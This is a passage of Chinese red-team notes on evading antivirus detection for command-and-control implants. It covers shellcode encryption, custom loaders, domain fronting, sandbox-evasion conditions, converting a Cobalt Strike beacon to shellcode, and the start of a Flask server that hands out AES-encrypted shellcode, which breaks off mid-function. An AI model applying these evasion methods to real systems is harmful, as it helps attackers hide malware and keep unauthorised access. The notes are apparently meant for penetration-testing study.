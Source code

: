 ```yaml
---
title: 【红队】权限维持之--C2免杀
---
```

# C&C免杀对抗多维度分析

**查杀方式**

> 文件查杀（Signatured Static Scanning）
> 内存扫描（Run-time Analysis）
> 流量分析（NIPS/NIDS）
> 行为分析（behavior Monitoring）

**对抗-静态扫描（文件查杀）**

1、shellcode加密（XOR、AES）

避免被杀软直接获取到真正shellcode（因为性能等原因 杀软不会暴力枚举解密内容）

2、源码级免杀（自主研发C&C工具）

**对抗-内存扫描**

各种语言自定义加载器，比如使用C# 编写ShellCode Loader

运行机制不同（C#使用虚拟机解释后运行，Golang编译运行）杀软没足够精力跟进各种形式的加载器

**对抗-流量分析**

域前置 - Domain Fronting

 流量路径`CDN->IP->c2`

**对抗-行为分析**

指定特定的运行条件，符合条件才执行恶意操作；避免在沙箱、逆向分析时有明显的恶意行为。

适合指定某个重要目标的情况下使用，比如要拿域内的某台重要靶标。

或者可以加强壳，例如VMP

# 一、shellcode加密

推荐一个脚本：https://github.com/rvrsh3ll/CPLResourceRunner 

可以把CS生成的RAW的beacon.bin转成shellcode

```bash
python2 ConvertShellcode.py beacon.bin
```

**服务端：Python Flask动态加密Shellcode**

```python
#服务端起个Flask动态加密，__init__.py
#coding=utf-8
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from flask import Flask

def add_to_32(key):
    while len(key) % 32 != 0:
        key += '\0'
    return str.encode(key)  # 返回bytes,密钥不是32位就不全

def create_app():
    # create and configure the app
    app = Flask(__name__, instance_relative_config=True)
    @app.route('/<string:key>', methods=('GET', 'POST'))
```